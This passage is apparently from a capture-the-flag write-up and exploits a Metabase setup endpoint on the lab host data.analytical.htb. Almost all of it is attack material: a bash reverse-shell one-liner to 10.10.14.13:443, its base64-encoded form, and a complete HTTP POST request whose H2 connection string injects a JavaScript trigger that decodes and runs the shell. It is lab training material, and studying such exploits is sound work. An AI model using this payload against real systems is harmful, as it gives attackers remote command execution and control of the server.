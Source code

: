 ```json
            "ssl": true
        },
        "name": "an-sec-research-team",
        "engine": "h2"
    }
}
```


- Here's the reverse shell payload:
```bash
bash -i >& /dev/tcp/10.10.14.13/443 0>&1
```
- Encoded version:
```
YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xMy80NDMgIDA+JjEK
```
### Exploit execution.
Using Burp Suite's Repeater, we sent a POST request to */api/setup/validate* with the  payload embedded in the request body.

```json
POST /api/setup/validate HTTP/1.1
Host: data.analytical.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Content-Type: application/json
Content-Length: 822


{
    "token": "249fa03d-fd94-4d5b-b94f-b4ebf3df681f",
    "details":
    {
        "is_on_demand": false,
        "is_full_sync": false,
        "is_sample": false,
        "cache_ttl": null,
        "refingerprint": false,
        "auto_run_queries": true,
        "schedules":
        {},
        "details":
        {
            "db": "zip:/app/metabase.jar!/sample-database.db;MODE=MSSQLServer;TRACE_LEVEL_SYSTEM_OUT=1\\;CREATE TRIGGER pwnshell BEFORE SELECT ON INFORMATION_SCHEMA.TABLES AS $$//javascript\njava.lang.Runtime.getRuntime().exec('bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xMy80NDMgIDA+JjEK}|{base64,-d}|{bash,-i}')\n$$--=x",
            "advanced-options": false,
            "ssl": true
        },
        "name": "an-sec-research-team",
        "engine": "h2"
    }
}
```
